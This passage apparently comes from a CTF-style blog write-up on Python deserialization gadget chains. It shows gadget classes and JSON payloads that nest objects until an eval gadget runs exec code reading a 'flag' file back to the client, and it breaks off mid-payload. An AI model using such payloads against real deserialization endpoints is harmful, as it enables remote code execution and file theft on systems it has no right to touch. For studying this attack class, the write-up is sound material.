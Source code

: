 Here the `__call__` method looks similar to the Atelier example, but in this case it takes an argument, while the `upper` method doesn't provide any arguments. So we will need a Python gadget which takes no arguments, but passes on an (empty) dictionary as an argument. Such a class looks as follows:

```python
class RandomClass:
    def __call__(self, an_argument):
        return self.a_method({})
```

Where the payload would look like:

```json
{
  "__class__": "UpperRequest",
  "__module__": "__main__",
  "text": {
    "__class__": "UpperRequest",
    "__module__": "__main__",
    "upper": {
      "__class__": "RandomClass1",
      "__module__": "helpers",
      "a_method": {
        "__class__": "EvalClass",
        "__module__": "helpers",
        "arg": "exec(\"raise Exception(open('flag').read())\")"
      }
    }
  }
}
```

This payload results in reading the flag file and returning it to the client. One interesting detail which hasn't been clarified in the exploits yet was the need for an extra object of class `UpperRequest`. Since the method `upper` is called on the property `text`, but not on the object of class `UpperRequest` directly, this property should also be initialized as something. Since `UpperRequest` is a known class without any side-effects, like a custom constructor, the type of the `text` property can be set to this class. This will result in the following when debugging the server:

![Debug 8]({{ site.url }}/assets/2021-10-20-python-gadgets/debug8.png)

This is also important when looking for Python gadgets. Since an exception is thrown in the `eval` method, the code happening after the call made in the gadget (in the exploit the code after the `self.opts.copy()` call), is never called. But as can be seen with that example, not the object itself is directly called, but a property of the object. So a class could also look like:

```python
class RandomClass2:
    def __call__(self):
        return self.a_property.a_property.a_property.a_method({})
```

Here the payload should look as follows:

```json
{
  "__class__": "UpperRequest",
  "__module__": "__main__",
  "text": {
    "__class__": "UpperRequest",
    "__module__": "__main__",
    "upper": {
      "__class__": "RandomClass2",
      "__module__": "helpers",
      "a_property": {
        "__class__": "RandomClass2",
        "__module__": "helpers",
```